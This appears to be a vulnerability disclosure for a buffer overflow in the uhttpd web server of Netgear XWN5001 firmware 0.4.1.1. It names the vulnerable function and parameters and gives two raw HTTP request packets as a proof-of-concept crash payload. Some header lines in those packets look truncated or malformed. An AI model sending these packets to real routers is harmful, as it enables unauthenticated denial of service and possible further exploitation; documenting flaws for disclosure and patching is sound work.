


# xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary has a buffer overflow vulnerability. When a specific network packet is sent to the uhttpd binary, the sprintf operation crashes. This vulnerability can be exploited by a local or remote unauthenticated attacker.
## detail
The vulnerability is located in the function at address 0x43988C of the binary usr/sbin/uhttpd. 

Firstly, parameter select_edit is passed to wl_acl_editnum through nvram_set in function wlacl_edit.

wlacl_editnum:



Secondly, The parameter device and adr passed to sprintf in function wlacl_edit which is source of the issue.

wlacl_edit:



## Send package
Pakcges should be sent in order.
# package1
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

select_edit=123&submit_flag=wlacl_editnum
```

# package2
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 650

device=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&adr=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&plc_qos_port_select=10&hide2_policy=wzqwzqwzq&submit_flag=wlacl_edit
```
